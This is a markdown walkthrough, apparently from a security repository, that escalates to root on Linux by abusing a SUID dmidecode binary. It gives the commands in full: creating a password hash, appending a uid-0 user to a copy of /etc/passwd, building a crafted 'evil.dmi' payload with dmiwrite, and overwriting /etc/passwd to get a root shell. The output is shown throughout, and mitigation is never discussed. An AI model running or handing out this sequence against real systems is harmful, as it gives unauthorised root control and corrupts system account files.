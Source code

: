 # Privilege escalation using dmidecode

## Scenario

> dmidecode is a utility for reading system hardware information in the SMBIOS format: a standard maintained by the Distributed Management Task Force. [https://www.nongnu.org/dmidecode/](https://www.nongnu.org/dmidecode/) is the implementation present in most Linux distributions, including Debian and Red Hat, and was the focus of this investigation.

Command  `dmidecode` has SUID (chmod 4000) - run as the owner, not the user who started it.

``` bash
hades@ubuntu:~/dmiwrite$ ls -l $(which dmidecode)
-rwsr-xr-x 1 root root 121856 Dec 23  2019 /usr/sbin/dmidecode
```

## Privilege escalation

> dmidecode suid method changing /etc/passwd

### Create user backups

Generate hash password with openssl

``` bash
hades@ubuntu:~$ openssl passwd -1 -salt backups bk
$1$backups$FlLpDMVKJpRZ.KXaZE.FW.
```

Fill to file /etc/passwd

``` bash
backups:$1$backups$FlLpDMVKJpRZ.KXaZE.FW.:0:0:,,,:/root:/bin/bash
```

Copy file /etc/passwd to passwd.bak and add backups user to the end of the file

``` bash
hades@ubuntu:~$ cp /etc/passwd /tmp/passwd.bak
hades@ubuntu:~$ echo 'backups:$1$backups$FlLpDMVKJpRZ.KXaZE.FW.:0:0:,,,:/root:/bin/bash' >> /tmp/passwd.bak
```

### Generate payload

``` bash
hades@ubuntu:~/dmiwrite$ make dmiwrite
gcc -W -Wall -Wshadow -Wstrict-prototypes -Wpointer-arith -Wcast-qual -Wcast-align -Wwrite-strings -Wmissing-prototypes -Winline -Wundef dmiwrite.c util.c -o dmiwrite
```

``` bash
hades@ubuntu:~/dmiwrite$ ./dmiwrite /tmp/passwd.bak evil.dmi
Wrote payload of length 2962 to evil.dmi
Padding 980078 bytes to evil.dmi
	Setting checksum: memset(buf+30, 202, 1);

Wrote DMI header of length 32 to evil.dmi
Padding 65536 bytes to evil.dmi
Congratulations, evil.dmi looks like a valid DMI file.
```

### Getting root

``` bash
hades@ubuntu:~/dmiwrite$ su backups
su: user backups does not exist
hades@ubuntu:~/dmiwrite$ dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/passwd
# dmidecode 3.2
Scanning evil.dmi for entry point.
SMBIOS 2.1 present.
1 structures occupying 2962 bytes.
Table at 0x00000000.

# Writing 2962 bytes to /etc/passwd.
# Writing 0 bytes to /etc/passwd.
/etc/passwd: fwrite: No such file or directory
hades@ubuntu:~/dmiwrite$ su backups
Password: 
backups@ubuntu:/home/hades/dmiwrite# id
uid=0(backups) gid=0(root) groups=0(root)
```

## Reference

[https://github.com/adamreiser/dmiwrite](https://github.com/adamreiser/dmiwrite)

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/)